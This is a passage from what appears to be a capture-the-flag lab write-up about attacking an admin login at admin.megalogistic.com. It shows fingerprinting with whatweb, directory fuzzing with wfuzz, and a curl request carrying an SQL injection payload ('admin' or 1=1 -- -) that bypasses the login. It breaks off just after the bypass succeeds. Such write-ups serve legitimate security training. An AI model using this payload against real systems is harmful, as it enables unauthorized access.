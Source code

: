 ```bash
---
Certificate chain
# Not useful info here
    Max Early Data: 0
---
read R BLOCK
closed
```
We discovered the subdomain `admin.megalogistic.com`, which confirms the existence of `megalogistic.com` but not `megalogistics.htb`.

### HTTPS Enumeration (admin.megalogistic.com)
#### Technology scan
```bash
❯ whatweb https://admin.megalogistic.com
https://admin.megalogistic.com [200 OK] Apache[2.4.38], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.10.236], PHP[7.3.14], PasswordField[password], Title[Administrator Login], X-Powered-By[PHP/7.3.14]
```
Toguether with `wappalyzer`:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Apache | 2.4.38 | Debian Linux |
| PHP | 7.3.14 | - |
| Cookies | - | PHPSESSID |

#### Web content fuzzing
First, fuzz all the subdirectories of the web page:
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 22357 "https://admin.megalogistic.com/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://admin.megalogistic.com/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================
```
#### Login bypass
The only page available is an admin login, when we insert incorrect credentials we obatin:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username=admin&password=1234" -k -s | grep "Login failed"
<label>Login failed</label>    <!-- Remind Passowrd -->
❯ curl -X POST "https://admin.megalogistic.com" -d "username=dmin&password=1234" -k -s | grep "Login failed"
<label>Login failed</label>    <!-- Remind Passowrd -->
```
The output is te same for every error case, so the best we can try is SQLi:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username=admin' or 1=1 -- -&password=1234" -k -s | grep "Login failed"
```
As we don't know any user, we can try to log in as any user on the DB, and we succeed, logging in as `admin`: